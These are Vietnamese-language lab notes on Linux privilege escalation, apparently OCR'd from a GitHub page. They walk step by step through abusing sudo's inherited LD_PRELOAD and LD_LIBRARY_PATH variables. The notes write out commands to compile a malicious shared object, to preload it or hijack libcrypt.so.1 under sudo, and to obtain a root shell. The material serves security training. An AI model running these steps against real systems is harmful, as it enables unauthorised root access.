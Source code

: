 - Sudo có thể được thiết lập để thừa hướng biến môi trường từ môi trường của usr. Kiểm tra xem môi trường nào được kế thừa

      sudo -l
- LD_PRELOAD và LD_LIBRARY_PATH đều được thừa hưởng từ môi trường của usr khác. LD_PRELOAD load một shared objects trước những thứ khác khi một prog chạy. LD_LIBRARY_PATH cung cấp một danh sách các dir nơi mà các shared libraries được tìm kiếm đầu tiên.
- Tạo một shared object sử dụng code từ /home/user/tools/sudo/preload.c:

      gcc -fPIC -shared -nostartfilé -o /tmp/preload.so /home/user/tools/sudo/preload.c
- Chạy một trong những prog được cho phép chạy dưới quyền sudo (sudo -l), trong khi setting LD_PRELOAD tới full path của shared object mới

      sudo LD_PRELOAD=/tmp/preload.so program-name-here
- Một root shell sẽ xuất hiện. Thoát shell trước khi tiếp tục. Phụ thuộc vào prog mà bạn chọn, bạn có lẽ cần phải thoát khỏi nó
- Chạy ldd với apache2 để xem những shared libs nào được sử dụng bởi chương trình

      ldd /usr/sbin/apache2
- Tạo một shared object cùng tên với một trong những libs trong danh sách (libcrypt.so.1) sử dụng code ở /home/user/tools/sudo/library_path.c:

      gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
- Chạy apache2 với quyền sudo, trong khi setting LD_LIBRARY_PATH cho /tmp (nơi mà ta output shared objects được thực thi)

      sudo LD_LIBRARY_PATH=/tmp apache2
- Một root shell xuất hiện, thoát khỏi nó. Thử đổi tên /tmp/libcrypt.so.1 thành tên của library khác được sử dụng bởi apache2 và rerun apache2 với quyền sudo một lần nữa. Nếu nó không hoạt động, kiểm tra xem tại sao, và làm sao phải thay để library_path.c code để khiến nó hoạt động

